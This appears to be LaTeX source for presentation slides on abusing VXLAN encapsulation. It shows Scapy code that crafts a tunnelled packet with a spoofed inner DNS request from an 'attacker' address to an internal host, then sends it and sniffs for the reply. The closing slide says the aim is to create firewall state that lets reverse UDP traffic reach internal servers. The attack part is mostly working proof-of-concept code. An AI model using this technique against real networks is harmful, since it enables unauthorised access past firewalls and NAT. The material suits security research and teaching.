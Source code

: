 \documentclass[16pt,landscape,a4paper,footrule]{foils}
\begin{document}

First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789
vni=37 {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}



Send and then wait for something, not from same IP bc from inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 109.xx.yy.0/19", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}

The source port we used in the inside packet, becomes the destination port in replies - 54040 in example


Plan inject UDP via VXLAN to create firewall state, will allow reverse UDP requests coming into internal server
\end{document}
